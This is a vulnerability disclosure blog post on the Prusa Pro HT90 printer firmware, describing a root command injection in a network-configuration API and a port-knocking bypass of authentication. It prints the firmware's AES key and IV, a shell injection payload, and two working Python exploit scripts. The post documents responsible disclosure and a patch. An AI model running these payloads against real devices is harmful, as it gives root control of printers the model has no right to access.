






> NOTE: both this post and the research hereby presented were done without any usage of Large Language Models or other Generative AI tools. Any errors, typos, or weird phrasing are entirely my fault 🙂

While chatting with friends about 3D printers someone mentioned that the [Prusa Pro HT90](https://www.prusa3d.com/product/prusa-pro-ht90-eu-230v-2/) apparently was based on the popular [Klipper firmware](https://www.klipper3d.org/), that quickly sparked my interest, mostly because I'm also running Klipper on my current 3D printer and I was curious about how it was being used in a commercial product.

## Obtaining the firmware

The first step was obviously obtaining the firmware, that turned out to be more simple than expected since Prusa provides the [firmware for download on their website](https://help.prusa3d.com/downloads/ht90). The image is provided as a `.swu` file, something that I had never heard of before, but luckily the usual `file` command was able to identify it as a [cpio archive](https://en.wikipedia.org/wiki/Cpio).

```sh
$ file HT90_firmware_1.3.19.swu
HT90_firmware_1.3.19.swu: ASCII cpio archive (SVR4 with CRC)
```

Extracting the archive was as simple as running `cpio -v -i < HT90_firmware_1.3.19.swu`, that resulted in the following file structure:

```text
sw-description
emmcsetup.lua
aes-key
trilab-image-raspberrypi4.ext3.gz
```

> ...wait, `aes-key`? `raspberrypi4`? Stuff is really getting interesting.

The `.ext3.gz` file seems, in fact, encrypted:

```sh
$ file trilab-image-raspberrypi4.ext3.gz
trilab-image-raspberrypi4.ext3.gz: data
```

Here's the entropy plot of the archive, it's pretty clear that it's somehow encrypted, since the entropy is pretty much maxed out across the entire file:


`sw-description` and `emmcsetup.lua` looked like metadata and upgrade scripts respectively, but no clues about the image encryption.

Inside the `aes-key` file there was a 32 byte key and a 16 byte IV, so I did what any CTF player would do: I applied my guessing skills and figured out it was probably AES-256 in CBC mode.

I tried to decrypt the image with `openssl enc -d -aes-256-cbc -K 9a267b04ba8c46276bfdd94e2c14eded368b1a605e6dd877c97e94e6b69f568c -iv aa3c19f61c34ba6892ccb994d776a8bd -in trilab-image-raspberrypi4.ext3.gz -out dec-trilab-image-raspberrypi4.ext3.gz` <!-- TODO: remove --> (note for Prusa: should I redact the key/iv here?)
and it worked!

The entropy of the decrypted file is much more reasonable, it's still high because it's a gzip archive, but you can clearly spot that there are some dips.



```sh
$ file dec-trilab-image-raspberrypi4.ext3.gz
dec-trilab-image-raspberrypi4.ext3.gz: gzip compressed data, max compression, from Unix, original size modulo 2^32 1665138688
```

Extracting the gzip file using `gzip -d < dec-trilab-image-raspberrypi4.ext3.gz > trilab-image-raspberrypi4.ext3` resulted in an ext3 image:

```sh
$ file trilab-image-raspberrypi4.ext3
trilab-image-raspberrypi4.ext3: Linux rev 1.0 ext3 filesystem data, UUID=7e2e6163-7376-448e-a896-35212dfaa6a3 (large files)
```

The entropy here is just what you'd expect from a filesystem image, with a large dip at the end where there is just empty space:



> [Trilab](https://trilab3d.com/) is a company that Prusa acquired in 2021 to make the HT90, this name will come up again later...

## Initial look at the firmware

Mounting the image and looking at the file structure revealed that it was the root filesystem of the printer, and, to my surprise, the developers didn't just do the usual thing of packing a Raspbian image with their stuff and a ton of duct tape, instead they built a custom image using [Yocto](https://www.yoctoproject.org/), which is a pretty neat embedded Linux build system.

Most of the interesting stuff was located in the home directory of the `trilab` user:

- `boot-files/`
- `boot-scripts/`
- `boot.sh`
- `init.py`
- `init-scripts/`
- `klipper/`
- `KlipperScreen/`
- `mainsail/`
- `moonraker/`
- `motd/`
- `omaha.env`
- `printer_data/`
- `swu-conf/`
- `trilab-printer-controller/`
- `util-scripts/`
  
It looked just like your average Klipper setup, with some notable exceptions:

- `boot.sh`, `boot-scripts/`, `init.py` and `init-scripts/`: these handle the boot process along with some initialization tasks;
- `boot-files/`: this folder contains files that look suspiciously like a boot partition for a Raspberry Pi, they'll come in handy later on;
- `omaha.env` and `swu-conf/`: these are related to the firmware update process;
- `trilab-printer-controller/`: this is a piece of software that handles stuff that is not directly supported by Klipper, like network configuration, updates, telemetry and other things. This will be the main focus for the rest of the post.

## Trilab Printer Controller

`trilab-printer-controller` (referenced as TPC from now on) is a Python application that runs as a systemd service and is responsible for handling the printer's network configuration, firmware updates, telemetry and other things. It also has a Flask based web server that is used to expose some functionalities to other parts of the system.

### Network configuration

One of the most interesting functionalities exposed by TPC is the network configuration, basically it exposes a REST API that wraps `nmcli` (the NetworkManager CLI). Most of the endpoints were properly escaping the user input, like the following:

```python
def up_down_connection(conn_name, up=True):
    command = ["nmcli", "c"]
    if up:
        command.append("up")
    else:
        command.append("down")
    command.append(conn_name)
    sp = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    return sp.stdout.decode('ascii'), sp.stderr.decode('ascii')
# ...
@app.route("/network-manager/up-down-connection/<conn_name>/<up_down>", methods=["POST"])
def nm_up_down_connection(conn_name,up_down):
    up = True
    if up_down == 'down':
        up = False
    rsp = network.up_down_connection(conn_name, up)
    return make_response({
        "stdout": rsp[0],
        "stderr": rsp[1]
    }, 400 if len(rsp[1]) > 0 else 200)
```

However, one endpoint in particular was not properly escaping the user input, in fact it was directly passing user input to `os.system`.

```python
def show_connection(conn_name):
    conn = parse1(os.popen(f"nmcli -f all c show '{conn_name}' | cat").read())[0]
    conn = restructuralize_object(conn)
    return conn
# ...
@app.route("/network-manager/show-connection/<conn_name>", methods=["GET"])
def nm_show_connection(conn_name):
    return network.show_connection(conn_name)
```

Uh-oh, sounds like an RCE vulnerability to me, let's see if we can exploit it.

Wait, I don't even have either an HT90 or 12.000€ to buy one, how am I even supposed to test this?

## Digression: running the firmware

Luckily, the image contained a `boot-files/` folder with a pretty standard Raspberry Pi boot partition structure, so recreating a standard firmware image comprised of a boot partition and a root partition was pretty straightforward (ignoring the part where I had to guess the partition layout that was used for A/B updates and the data partition, that took a few tries).

First I tried to boot the image using QEMU, but I was too lazy to properly figure it out, so I remembered I had a spare Raspberry Pi 4 lying around and I tried flashing the crafted image to an SD card and booting it on the Pi, and it worked on the first try!




## Exploiting the vulnerability

Now that I was able to run the firmware I was finally able to test the vulnerability.

First I had to figure out how to reach TPC's web server, since nmap reported that only port 80 was open, but that seemed to be used by [Mainsail](https://docs.mainsail.xyz/), the web interface for Klipper.

After looking around a bit I found that there was actually Nginx running as a reverse proxy listening on port 80 and it was forwarding requests to TPC if the path started with `/tpc/` so the vulnerable endpoint was actually located at `http://<printer_ip>/tpc/network-manager/show-connection/<conn_name>`.

The command injection part was pretty straightforward, but I still had to mimic the expected output of `nmcli` to get a proper response from the server.

```sh
$ nmcli -f all c show $MY_CONN_NAME
connection.id:                          $MY_CONN_NAME
# ...
```

Sounds easy enough, I just have to inject a command that outputs something in the format of `key: value` and it should work, right?

My first idea was to just run `id`, to do that I had to do some shell trickery: `' || true; echo "cmd: $(id | base64 -w0)" '`. Basically I appended a `|| true` to force the command to succeed despite no valid connection id being passed to `nmcli`, then I echoed the output of the command prefixed with `cmd:` and base64 encoded to avoid any issues with special characters. The last step was just URL-encoding the whole thing and passing it as the `conn_name` parameter.



Wait, what? TPC runs as `root`??? 🤯

The next thing I did was automating the exploit using a Python script, while at it I encountered a weird issue where commands containing `/` were failing with HTTP code 404, after some debugging I found out that the issue was that Flask doesn't actually care if the slashes are URL-encoded or not, so I couldn't do stuff like `ls /` because the slash would be interpreted as a path separator, thus causing a 404.

To bypass this issue I exploited the fact that the command was being executed in a shell, so I just replaced every `/` with `${PWD:0:1}`, which is a fancy way of saying "the first character of the current working directory", and since the current working directory always starts with a slash, it worked perfectly.

Here's the final exploit script that I used to test the vulnerability:

```python
# /// script
# requires-python = ">=3.12"
# dependencies = [
#     "httpx>=0.28.1",
# ]
# ///

import sys
import httpx
import base64
from urllib.parse import quote


def tpc_exploit(url: str, cmd: str) -> str:
    # We can't send / in the command because Flask interprets them as path separators even if URL encoded
    # So we replace them with ${PWD:0:1} which expands to / in the shell
    cmd = cmd.replace("/", "${PWD:0:1}")

    payload = "' || true; echo \"cmd: $(" + cmd + "| base64 -w0)\" '"
    payload_quoted = quote(payload)
    url = f"{url}/network-manager/show-connection/{payload_quoted}"

    resp = httpx.get(url)
    if resp.status_code == 401:
        print(
            f"HTTP request failed with code {resp.status_code}, authentication is probably enabled"
        )
        return ""
    return base64.b64decode(resp.json()["cmd"]).decode()

if __name__ == "__main__":
    if len(sys.argv) < 3:
        print(f"Usage: {sys.argv[0]} <TARGET_URL> <SHELL COMMAND>")
        print(f"Example: {sys.argv[0]} http://1.2.3.4/tpc id -u")
        exit(1)
    print(tpc_exploit(sys.argv[1], " ".join(sys.argv[2:])))
```

This exploit only worked if authentication was disabled, because authentication is handled by Nginx using basic auth on every path.

### Searching for an authentication bypass

Until now I omitted something: TPC is actually listening on `0.0.0.0:5000`, but access to it is blocked by `iptables` rules that only allow connections to port 80, but that's not the only thing they do 👀, let's take a look at `/etc/iptables/iptables.rules`:

```sh
*filter
:INPUT ACCEPT [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [4770:15904672]
:GATE1 - [0:0]
:GATE2 - [0:0]
:GATE3 - [0:0]
:KNOCKING - [0:0]
:PASSED - [0:0]
-A INPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -p icmp -j ACCEPT
-A INPUT -p udp -m udp --dport 5353 -j ACCEPT
-A INPUT -p udp -m udp --sport 67:68 --dport 67:68 -j ACCEPT
-A INPUT -j KNOCKING
-A FORWARD -j DROP
-A GATE1 -p tcp -m tcp --dport 23491 -m recent --set --name AUTH1 --mask 255.255.255.255 --rsource -j DROP
-A GATE1 -j DROP
-A GATE2 -m recent --remove --name AUTH1 --mask 255.255.255.255 --rsource
-A GATE2 -p tcp -m tcp --dport 58295 -m recent --set --name AUTH2 --mask 255.255.255.255 --rsource -j DROP
-A GATE2 -j GATE1
-A GATE3 -m recent --remove --name AUTH2 --mask 255.255.255.255 --rsource
-A GATE3 -p tcp -m tcp --dport 52073 -m recent --set --name AUTH3 --mask 255.255.255.255 --rsource -j DROP
-A GATE3 -j GATE1
-A KNOCKING -m recent --rcheck --seconds 30 --name AUTH3 --mask 255.255.255.255 --rsource -j PASSED
-A KNOCKING -m recent --rcheck --seconds 10 --name AUTH2 --mask 255.255.255.255 --rsource -j GATE3
-A KNOCKING -m recent --rcheck --seconds 10 --name AUTH1 --mask 255.255.255.255 --rsource -j GATE2
-A KNOCKING -j GATE1
-A PASSED -m recent --remove --name AUTH3 --mask 255.255.255.255 --rsource
-A PASSED -p tcp -m tcp --dport 22 -j ACCEPT
-A PASSED -p tcp -m tcp --dport 5000 -j ACCEPT
-A PASSED -j GATE1
COMMIT
```

I really hate `iptables` rules, but after some digging in the docs I was able to understand that this is a port knocking scheme that opens up both port 22 and port 5000 if we knock on `tcp/23491`, `tcp/58295`, and `tcp/52073` quickly enough.

> This is probably some sort of backdoor that the developers left in case they needed to access the printer for debugging or support purposes, but it can also be used by an attacker to bypass authentication and access TPC's web server directly.

Time to write another Python script:

```python
# /// script
# requires-python = ">=3.11"
# dependencies = [
#     "httpx>=0.28.1",
# ]
# ///
from tpc_rce import tpc_exploit
import socket
import time

def knock_ports(ip: str):
    for port in [23491, 58295, 52073]:
        print(f"Knocking {ip}:{port} ...")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(0.5)
        try:
            s.connect_ex((ip, port))
        finally:
            s.close()
        time.sleep(0.1)

if __name__ == "__main__":
    if len(sys.argv) < 3:
        print(f"Usage: {sys.argv[0]} <TARGET_IP> shell command")
        print(f"Example: {sys.argv[0]} 1.2.3.4 id -u")
        exit(1)
    ip = sys.argv[1]
    cmd = " ".join(sys.argv[2:])
    print("Knocking ports...")
    knock_ports(ip)
    print("Done!")
    url = f"http://{ip}:5000"
    print(f"Exploiting {url} ...")
    print(tpc_exploit(url, cmd))
```



## Conclusion

In conclusion, the Prusa HT90 had a critical vulnerability chain that allowed attackers to execute arbitrary commands as root on the printer, with the only prerequisite being that the attacker is able to reach the printer over the network.

The Prusa Security Team was mostly responsive and handled the disclosure process in a professional manner, providing me with a patched firmware to test before the public release, and they also made sure to early notify their customers about the update. <!-- TODO: They also published a detailed advisory about the vulnerability as part of the release notes [insert link here]-->.

For the report I was awarded with a nice 3D printer upgrade, we agreed upon a Prusa Core One L, and they were kind enough to bundle it with some filament and a swag pack, so I'd like to publicly thank Prusa for their generosity and for their great handling of the disclosure process.

> Totally unrelated rant: I have been using 3D printers for a couple years now, and I have always admired how open most printers are, with most of them running open source firmware and having a thriving community of users and developers. However, the recent trend of manufacturers locking down their printers and making them more closed source is really disappointing, especially when you consider Chinese manufacturers that are known for violating open source licenses and not contributing back to the community.
> In this regard, I really admire Prusa for being one of the few manufacturers that still embraces open source and actively contributes to the community, and I hope they continue to do so in the future.

CVE IDs have been requested for the vulnerabilities, but they haven't been assigned yet, so I'll update this post once they are. <!--TODO-->

## Responsible disclosure timeline

- 2026-04-04: Initial look at the firmware and discovery of the first vulnerability.
- 2026-04-05: Found the second vulnerability and started working on a proof of concept.
- 2026-04-06: Initial email sent to Prusa security contact with the details of the vulnerabilities and the proof of concept.
- 2026-04-13: Another email sent after not receiving a response, asking if they had received the previous email and if they needed any additional information. The same day they acknowledged my report and apologized for the delay.
- 2026-05-20: After some back and forth I was sent an early version of a patched firmware to test, that I confirmed fixed the vulnerabilities.
- 2026-06-01: Prusa releases firmware version 1.3.56 that fixes the vulnerabilities and notifies customers about the update.
- 2026-07-13: Public disclosure and blog post published.
